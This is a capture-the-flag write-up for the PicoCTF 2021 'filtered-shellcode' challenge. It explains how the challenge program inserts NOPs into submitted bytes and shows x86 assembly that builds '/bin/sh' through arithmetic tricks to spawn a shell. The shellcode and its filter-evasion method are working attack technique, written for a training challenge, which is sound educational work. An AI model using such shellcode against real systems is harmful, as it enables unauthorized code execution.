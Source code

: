 # PicoCTF 2021, filtered-shellcode, pwn

## Description

A program that just runs the code you give it? That seems kinda boring...

## Solution

This one was funny :D
We send our bytecode and crackme will run it but... every two bytes adds two 0x90 bytes (NOP's) so we cannot really use instructions longer than two bytes because binary will screw it up. Okay, so let's use this shellcode:

```assembly
xor eax, eax
push eax
; /bin/sh
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
mov    ecx, eax
mov    edx, eax
xor    eax, eax
mov    al, 0xb
int    0x80

;exit
xor    eax, eax
inc    eax
int    0x80
```

But how to do two times push (or mov) with 4-byte value? We have to make use of additional bytes and do arithmetic transformations on it to achieve our values!

Building 0x68732f2f in eax register

```assembly
; bulding first part of string
mov eax, 0x90906814

nop
mov ecx, 0x90900096
nop
xor ecx, 0x90900090

dec_loop1:
sub eax, 0x9090012e
nop
loop dec_loop1-6
nop

; eax = 0x5f2d2f00
;       0x68732f2f   <- target

nop
xor eax, 0x909011bf
xor eax, 0x909026ce

; eax = 0x68732f2f
push eax
nop
```

Building 0x6e69622f in eax register

```assembly
; building second part of the string
mov eax, 0x90906e00

nop
mov ecx, 0x90900082
nop
xor ecx, 0x90900090

dec_loop:
sub eax, 0x909000b9
nop
loop dec_loop-6

; eax = 0x646662fe
;       0x6e69622f    <- target

nop
xor eax, 0x9090019f
xor eax, 0x90900b41

nop
push eax
```

Now we can finish our shellcode as normal and pop the shell.

Note: during competition I didn't notice that character 0xA is 'banned' due to input reading method :) yes, it cost	 ~40 minutes of debugging 

Solve script: [go.py](./go.py)

Shellcode: [test.asm](./test.asm)

